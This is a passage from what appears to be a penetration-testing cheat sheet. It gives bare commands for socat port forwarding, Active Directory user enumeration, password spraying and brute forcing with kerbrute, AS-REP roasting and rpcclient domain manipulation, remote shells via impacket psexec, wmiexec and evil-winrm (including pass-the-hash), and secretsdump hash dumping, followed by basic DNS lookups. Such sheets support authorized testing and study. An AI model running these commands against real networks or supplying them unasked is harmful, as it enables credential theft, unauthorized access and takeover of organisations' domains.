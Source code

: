 ```
./socat tcp-listen:[any port],reuseaddr,fork tcp:[ip to forward]:[port to forward]
```

### Exploiting Active Directory
#### https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
#### https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap
Enumerate users on active directory
```
kerbrute userenum -d domain.com rockyou.txt
kerbrute passwordspray -d domain.com users.txt Password123
kerbrute bruteuser -d domain.com rockyou.txt user1
impacket-lookupsid domain.com/guest@10.0.0.1
impacket-GetNPUsers -no-pass -usersfile userlist.txt -dc-ip 10.0.0.1 example.com/
```
RPCClient for active directory enumeration
```
rpcclient -U "" [target ip] --connect to rpcclient
querydominfo --domain information query
srvinfo --server information
enumdomusers --enumerate users
enumdomgroupd --enumerate groups
querygroup 0x200 --group queries
queryuser username --user queries
enumprivs --enumerate privileges
getdompwinfo --get domain password information
getusrdompwinfo 0x200 --get user domain password information
createdomuser username --create domain user
setuserinfo2 username 24 password --set a password for domain user
deletedomuser username --delete domain user
enumalsgroups builtin --enumerate alias groups
```
Windows remoting with AD users using crackmapexec
```
crackmapexec winrm 10.0.0.1 -u username -p password
```
Get a shell on the machine with AD users
```
impacket-psexec domain.com/username@10.0.0.1
impacket-wmiexec domain.com/username@10.0.0.1
evil-winrm -i 10.0.0.1 -u username -p password
evil-winrm -i 10.0.0.1 -u administrator -H "hash"                           1 ⨯
impacket-wmiexec domain.com/admin@10.0.0.1 -hashes [hash]
```
Dump hashes on AD machine
```
impacket-secretsdump domain.com/username@10.0.0.1
```

### DNS enumeration
Types of DNS records
```
A --stores a hostname & its ipv4 address
AAAA --stores a hostname & its ipv6 address
CNAME --stores a hostname that points to another hostname
MX --an SMTP email server
```
Sending DNS queries with NSLOOKUP
```
nslookup --type=A example.com 10.0.0.1
```
Sending DNS queries with DIG
```
dig @10.0.0.1 example.com A
```